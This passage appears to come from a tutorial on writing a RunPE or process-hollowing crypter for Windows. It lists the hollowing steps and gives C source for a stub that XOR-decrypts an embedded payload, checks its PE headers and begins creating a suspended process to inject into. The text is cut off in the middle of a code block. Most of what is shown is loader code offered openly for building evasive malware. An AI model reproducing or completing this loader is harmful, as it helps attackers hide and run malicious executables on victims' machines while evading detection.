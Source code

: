 1. Decrypt application
2. Create suspended process
3. Preserve process's thread context
4. Hollow out process's virtual memory space
5. Allocate virtual memory
6. Write application's header and sections into allocated memory
7. Set modified thread context
8. Resume process
9. Finish

As we can see, this requires quite a bit of knowledge of Windows internals, including the PE file structure, Windows memory manipulation and processes/threads. I would highly recommend the reader to cover these fundamentals to understand the following material.

Firstly, let’s set up two routines in main, one for decrypting the encrypted application and the other to load it into memory for execution.

```c
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    Decrypt();
    RunPE();

    return EXIT_SUCCESS;
}
```

The `Decrypt` function will be entirely dependent on the encryption scheme used to encrypt the application but here is an example code using XOR.

```c
VOID Decrypt(VOID) {
    int i;
    for (i = 0; i < sizeof(Shellcode); i++) {
        Shellcode[i] ^= Key[i % sizeof(Key)];
    }
}
```

Now that the application has been decrypted, let’s take a look at where the magic happens. Here, we will verify that the application is a valid PE file by checking the DOS and PE signatures.

```c
VOID RunPE(VOID) {
    // check valid DOS signature
    PIMAGE_DOS_HEADER pidh = (PIMAGE_DOS_HEADER)Shellcode;
    if (pidh->e_magic != IMAGE_DOS_SIGNATURE) return;

    // check valid PE signature
    PIMAGE_NT_HEADERS pinh = (PIMAGE_NT_HEADERS)((DWORD)Shellcode + pidh->e_lfanew);
    if (pinh->Signature != IMAGE_NT_SIGNATURE) return;
}
```

Now, we will create the suspended process.

```c
VOID RunPE(VOID) {
    ...

    // get own full file name
    CHAR szFileName[MAX_PATH];
    GetModuleFileName(NULL, szFileName, MAX_PATH);

    // initialize startup and process information
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));
    // required to set size of si.cb before use
```